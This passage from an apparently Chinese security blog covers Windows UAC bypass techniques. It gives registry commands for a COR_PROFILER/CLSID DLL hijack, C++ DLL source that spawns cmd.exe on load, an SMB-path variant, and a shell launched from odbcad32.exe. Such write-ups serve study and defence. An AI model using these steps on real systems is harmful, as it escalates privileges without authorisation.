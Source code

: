     
    
    REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\test\calc.dll" /f  
    REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f  
    REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f  
    mmc gpedit.msc  
      
  
---  
  
但我死活复现不起不知道为啥，我的dll这样写的

    
    
    // dllmain.cpp : 定义 DLL 应用程序的入口点。  
    #include "pch.h"  
    #include <iostream>  
    #include <Windows.h>  
      
    BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)  
    {  
        char cmd[] = "cmd.exe";  
      
        switch (fdwReason)  
        {  
        case DLL_PROCESS_ATTACH:  
            WinExec(cmd, SW_SHOWNORMAL);  
            ExitProcess(0);  
            break;  
        case DLL_THREAD_ATTACH:  
            break;  
        case DLL_THREAD_DETACH:  
            break;  
        case DLL_PROCESS_DETACH:  
            break;  
        }  
        return TRUE;  
    }  
      
  
---  
  
另外的，你还可以为COR_PROFILER_PATH设置为如\\\server\share\test.dll的smb的路径，这样也可以实现bypassuac（没复现）

## 3\. 白名单程序

### odbcad32.exe

这个方法很简单。打开C:\Windows\system32\odbcad32.exe，然后通过以下方法打开powershell或者cmd

![](https://gitee.com/fuli009/images/raw/master/public/20210815101551.png)

成功bypass

### ![](https://gitee.com/fuli009/images/raw/master/public/20210815101552.png)

